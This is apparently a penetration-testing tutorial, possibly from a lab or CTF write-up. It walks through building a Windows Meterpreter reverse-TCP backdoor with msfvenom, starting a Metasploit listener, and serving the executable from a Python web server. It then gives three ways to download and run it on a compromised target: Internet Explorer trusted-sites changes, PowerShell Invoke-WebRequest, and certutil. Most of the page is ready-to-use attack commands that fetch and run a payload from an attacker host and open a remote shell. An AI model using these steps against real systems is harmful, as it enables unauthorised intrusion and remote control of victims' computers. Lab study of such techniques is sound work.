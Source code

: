 ![](https://i.imgur.com/DD9cjnv.png)

Create a Metasploit backdoor using msfvenom. To create the backdoor use the below syntax:

`msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe`

where LHOST is your IP and LPORT is he port Metasploit will listen for connections.

![](https://i.imgur.com/FR0EPbY.png)

Create a Metasploit listener.

![](https://i.imgur.com/uj2ubTP.png)

Using python create a webserver (python -m SimpleHTTPServer 80) and deliver (download) the backdoor to the target system you previously logged in.

**Delivery method I**

But first, go to Internet Explorer settings and choose "Internet Options".

![](https://i.imgur.com/JcF2ItF.png)

Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.

![](https://i.imgur.com/Ma7KUdF.png)

After adding your IP to the trusted websites you can close that tab, and then click OK.

Now, you should be able to download your backdoor.

![](https://i.imgur.com/4CDggt5.png)

By pressing on the "Run" button the backdoor will be executed by the system and a connection to Metasploit will be created.

**Delivery method II**

Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command:

`Invoke-WebRequest http://10.x.x.x/backdoor.exe`

![](https://i.imgur.com/RG0Wdbg.png)

To execute the backdoor type `.\backdoor.exe`

**Delivery method III**

You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline. The command to download the file is:

`certutil -urlcache -split -f http://10.x.x.x/backdoor.exe`

![](https://i.imgur.com/qy2Yr5c.png)

Execution of the backdoor is done in the same way as the one at method II, by typing `.\backdoor.exe`
